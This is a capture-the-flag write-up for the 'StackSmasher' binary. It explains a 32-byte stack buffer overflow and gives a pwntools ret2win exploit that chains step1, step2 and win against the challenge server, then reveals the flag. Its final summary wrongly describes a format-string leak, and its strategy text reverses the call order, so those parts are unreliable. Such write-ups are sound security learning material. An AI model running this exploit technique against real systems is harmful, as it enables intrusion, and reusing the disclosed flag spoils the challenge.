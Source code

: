 # StackSmasher - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/StackSmasher.gif)

---

## Challenge Summary

The StackSmasher binary contains a buffer overflow vulnerability in the func() function, where user input is read into a 32-byte buffer, but 128 bytes are allowed. This allows an attacker to smash the stack and control the program's execution. The goal is to exploit this vulnerability to call the win() function, which prints the flag stored in the FLAG_VAL environment variable.

To achieve this, we must bypass the checks in the win() function by calling step1 and step2 in the right order to make the condition true and trigger the flag output.

## Binary Information

```bash
$ file StackSmasher
```

![Alt text](img/2.png)

```bash
$ checksec StackSmasher
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
int func()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("%s", "Input username:");
  read(0, buf, 0x80uLL);
  return printf("Your name is %s", buf);
}
```

![Alt text](img/4.png)

- The `func()` function reads 128 bytes of input into the 32-byte buffer `buf`, causing a **buffer overflow**.
- This allows control over the **return address**, enabling the attacker to redirect execution to the `win()` function.

### `win()` Function

```c
int win()
{
  int result; // eax
  const char *s; // [rsp+8h] [rbp-8h]

  s = getenv("FLAG_VAL");
  result = first;
  if ( first )
  {
    result = second;
    if ( second )
      return puts(s);
  }
  return result;
}
```

![Alt text](img/5.png)

- The `win()` function requires both `first` and `second` to be set to `1` to print the flag.

### `step1()` and `step2()` Functions

```c
void step1() { first = 1; }
void step2() { second = 1; }
```

- The attacker can call `step1()` and `step2()` by exploiting the buffer overflow to trigger the flag print in `win()`.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{J35KiI_P4RR07_Drug_M47u3}
```
